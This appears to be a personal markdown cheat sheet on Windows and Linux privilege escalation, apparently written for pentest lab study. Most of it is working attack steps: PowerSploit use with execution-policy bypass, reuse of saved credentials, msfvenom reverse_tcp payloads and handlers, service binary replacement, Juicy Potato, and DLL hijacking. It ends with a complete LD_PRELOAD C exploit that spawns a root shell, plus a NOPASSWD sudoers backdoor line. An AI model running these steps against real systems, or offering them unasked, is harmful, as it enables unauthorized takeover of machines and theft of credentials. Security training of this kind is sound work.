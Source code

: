 # PrivEsc

### PowerUp

PowerUp is populor tool used in context of Windows privilege escalation.
- Part of PowerSploit framework
- Automate the process of scanning a Windows system for potential misconfigurations, vulns that could lead to privilege escalation.

**Steps**:
- Get access and get [Powersploit](https://github.com/PowerShellMafia/PowerSploit) on victim machine
- `powershell -ep bypass`
- Import module PowerSploit `Import-Module PowerSploit` or `Import-Module .\PowerSploit`
    - `Get-Command -Module PowerSploit` Get available module
- Run `Invoke-privescAudit` Check potential exploit for privilege
- `Get-UnquotedService` check for unquoted service paths which could potentially allow for privilege escalation
- `Get-ModifiableService` check for the services that the current user can modify

### Unattend installation file
- Some service can leave config file after installation (like Unattended Windows Setup)
  - `C:\Windows\Panther\Unattend.xml`
  - `C:\Windows\Panther\Autounattend.xml`

Check the system is contain those file, and extract infomation from that.

### Windows Credential Manager

Windows Credential Manager is a built in feature in Microsoft Windows that allow users to securely store and manage credential

`cmdkey` is a command line utility in Windows that interact with Windows Credential Manager. With `cmdkey` you can:
- Add Credential
- List Credential
- Delete Credential

**Steps**:
- Start `powershell` -> `cmdkey /list` ~ List save cred that we can use.
- `runas.exe /savecred /user:administrator cmd` Use save credential, no need to input password

For remote control:
- `msfvenom -p windows/x64/.../reverse_tcp ... -f exe -o shell.exe`
- Use module `web_delivery` -> Set up host and port and payload like msfvenom -> Run -> Set the powershell command
- Run powershell command on victim machine
- Upload the `shell.exe`
- Set up `multi/handler` and run `shell.exe`

### Powershell history

- Check the history with first, apply `show hidden file`
- Goto user folder `AppData/Roaming/Microsoft/Windows/Powershell/PSReadline` 
- Open the `ConsoleHost_History` File with notepad

### Insecure Service Permissions

We can use tool like powerUp, AccessChk to automate check. When Identified the vuls service, Attacker modify the service config and restart the service

Attack vector:
- Service Binary Replacement
- Unquoted Service Path Exploitation
- DLL Hijacking in Services
- Weak Permissions on Service Configuration (Registry)
- Service Permission Manipulation
- Insecure Service Restart Behavior
- Path Interception (Environment Variables)

**Steps**:
- Use `msfvenom -p windows/meterpreter/reverse_tcp .... -f exe > "FileZilla Server.exe"` to generate payload
- Setup the `multi/handler` -> set InitialAutoRunScript `post/windows/manage/migrate` 
- Replace the payload with actual exe
- Restart the service   

### Juicy Potato

Juicy Potato is a Windows privilege escalation exploit that leverages specific vulnerabilities related to DCOM (Distributed Component Object Model) and the way Windows manages the communication between processes and services. 

**StepS:**
- After gain initial access, we can upload the backdoor.exe (msfvenom, reverse_tcp to Kali) and `Juicy_Potato.exe`
  - [Github repo](https://github.com/ohpe/juicy-potato)
- Setup multi/handler for the payload above
- Back to first meterpreter -> shell -> `JuicyPotato.exe -l 5555 -p <path_to_backdoor> -t * -c <cls_id>`

`Cls_id` Input is the COM that we targeted
- [Definition](https://learn.microsoft.com/en-us/windows/win32/com/clsid-key-hklm)
- [How to found correct id](https://github.com/ohpe/juicy-potato/tree/master/CLSID)

### DLL Hijacking

DLL Hijacking is a privilege escalation technique where an attacker manipulates the way windows application load DLL to execute malicious code with elevated privilege

Understand Default Search Order: Windows has a predefined order for searching for DLLs. It generally starts with the application's directory, followed by the system directories, and then other system-defined paths.

Common locations include:
- The application's current working directory.
- The System32 or SysWOW64 directories.
- Directories listed in the PATH environment variable.
- Other directories included in the search order.

You need to be able to make change one of these folder

- Inject the malicous dll, then the programs will load the malicious dll

Tools:
- DVTA (Our target)
- Promon

**Steps:**
- Procmon filter `CreateFile` -> Run DVTA
- Procmon filter ProcessName is `DVTA.exe`
- Filter result that `NAME NOT FOUND`, searching for dll that process not found and the folder that we can access
- Check the ACL with `Get-ACL '/path/to/folder/' | Format-list
- `msfvenom -p windows/meterpreter/reverse_tcp LHOST ... -f dll > payload.dll`
- Ship the payload and setup multi/handler -> Place the dll to correct folder

## Linux

### Local store

Looking for folder maybe contain config

- `grep -nr "password"` Grep content

### SUID

`find / -perm -u=s -type f 2>/dev/null` - Looking for binary that have root privilege

We can looking for change the content of `/etc/sudoer` file.
- Add this line `<user> ALL=(ALL) NOPASSWD:ALL`

### Share library inject

Several techniques can be used to inject a shared library into a running process:
- Using LD_PRELOAD: This environment variable specifies a shared library to be loaded before any other libraries. By setting this variable, an attacker can preload a malicious shared library into a process.
- Process Control (ptrace): The ptrace system call allows a process to control another process, typically used for debugging. Attackers can use ptrace to inject code into a running process, causing it to load a malicious shared library

Steps:
- Check with `sudo -l`
  - Looking for LD_PRELOAD privilege
- Create a malicious dll

```c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
  unsetenv("LD_PRELOAD");
  setgid(0);
  setuid(0);
  system("/bin/sh");
}
```

Compile `gcc -fPIC -shared -o shell.so shell.c -nostartfiles`

Run `sudo LD_PRELOAD=/home/student/shell.so apache2`